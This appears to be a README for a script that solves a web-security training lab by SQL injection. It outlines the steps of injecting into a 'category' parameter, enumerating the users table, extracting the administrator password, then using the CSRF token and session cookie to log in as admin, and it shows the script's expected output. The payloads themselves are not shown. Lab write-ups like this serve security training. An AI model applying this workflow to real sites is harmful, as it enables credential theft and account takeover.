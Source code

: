## Hack Steps

1. Inject payload in 'category' query parameter to retrieve the name of users table
2. Adjust the payload to retrieve the names of username and password columns
3. Adjust the payload to retrieve the administrator password
4. Fetch the login page
5. Extract the csrf token and session cookie
6. Login as the administrator
7. Fetch the administrator profile

## Run Script

1. Change the URL of the lab
2. Start script

```
~$ python main.py
```

## Expected Output

```
⦗#⦘ Injection parameter: category
⦗1⦘ Injecting a payload to retrieve the name of users table.. OK => users_nbrhnv
⦗2⦘ Adjusting the payload to retrieve the names of username and password columns.. OK => username_vgsmpf | password_jaxodh
⦗3⦘ Adjusting the payload to retrieve the administrator password.. OK => quj5ogyydyrkzz3o6zty
⦗4⦘ Fetching the login page.. OK
⦗5⦘ Extracting the csrf token and session cookie.. OK
⦗6⦘ Logging in as the administrator.. OK
⦗7⦘ Fetching the administrator profile.. OK
🗹 The lab should be marked now as solved
```
